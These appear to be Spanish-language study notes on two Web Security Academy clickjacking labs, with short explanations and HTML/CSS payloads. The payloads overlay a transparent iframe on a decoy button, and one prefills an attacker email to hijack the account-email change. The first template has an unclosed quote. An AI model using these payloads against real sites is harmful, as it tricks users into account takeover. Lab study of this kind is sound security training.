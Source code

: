 # Clickjacking

## Basic clickjacking with CSRF token protection

Un iframe permite cargar una pagina encima de otra de aqui proviene esta vulnerabilidad que se engaña al usuario a que haga clic en 
un lugar donde no deberia haciendo el iframe trasparente. SOlo funciona si las paginas permiten iframes si los iframe are allow( frame en ingles els cuadro marco)

```
<style>
    iframe {
        position:relative;
        width:$width_value;
        height: $height_value;
        opacity: $opacity;
        z-index: 2;
    }
    div {
        position:absolute;
        top:$top_value;
        left:$side_value;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="AQUI PON LA URL LA CUAL SE VA PONER ENSIMA EL DIV></iframe>

```
## Clickjacking with form input data prefilled from a URL parameter

Es basicamente lo mismo del ejemplo pero  cargando datos para cambiar el email 

```
<style>
    iframe {
        position:relative;
        width:700px;
        height: 700px;
        opacity: 0.0001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:450px;
        left:60px;
        z-index: 1;
    }
</style>
<div>CLICK ME</div>
<iframe src="https://0a96006303e0a89fc01f20c700340002.web-security-academy.net/my-account/?email=hacker@attacker-website.com"></iframe>
```
